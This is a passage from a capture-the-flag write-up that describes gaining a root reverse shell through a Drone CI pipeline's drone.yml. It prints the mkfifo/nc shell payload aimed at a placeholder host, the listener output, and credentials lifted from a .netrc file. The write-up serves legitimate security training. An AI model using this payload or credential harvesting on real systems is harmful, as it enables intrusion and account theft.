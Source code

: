 ### Key Points

- We do not have `bash` but we have access to `ash` and `sh`

- We can write in the `/tmp` folder

- No `python`, but `Perl` and `nc` are present

- Running Alpine Linux 3.15, which is a based on busybox, so limited commands

- x86_64 Linux If we would like to compile executable for the target

- We could use the Git CLI from this box to interact with the Repo instead of the Web UI

### Generating the payload

With these information, there are multiple ways of gaining a remote shell on the target computer, we choose the following payload for this challenge, repeat the previous steps and include it in `drone.yml`

```
mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc x.x.x.x 80 >/tmp/f
```

Start a listener on the selected port and catch the reverse shell with `nc -lnvp 80`

```shell
$ nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.0.181] from (UNKNOWN) [192.168.0.149] 51978
/bin/ash: can't access tty; job control turned off
/tmp/drone-u2aFxfYSGZ02aua6/done/src # whoami && id && ip a
root
uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft forever
2: eth0@if2010: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1040 qdisc noqueue state UP 
    link/ether ea:9c:38:bf:2f:e6 brd ff:ff:ff:ff:ff:ff
    inet 10.112.9.241/32 brd 10.112.9.241 scope global eth0
        valid_lft forever preferred_lft forever
/tmp/drone-u2aFxfYSGZ02aua6/done/src #
```

## Post Exploitation

Looking around the system, we found a really interesting file in the _Docker DroneCi Home folder_ named `.netrc`, we took a look inside, we had credentials for another user. We tried them against the Gitea application and successfully logged in as _DroneCI_:

```
/tmp/drone-u2aFxfYSGZ02aua6/home/drone # cat .netrc
machine git.challenge.nahamcon.com login droneci password t4K0@s!qSF
/tmp/drone-u2aFxfYSGZ02aua6/home/drone #
```
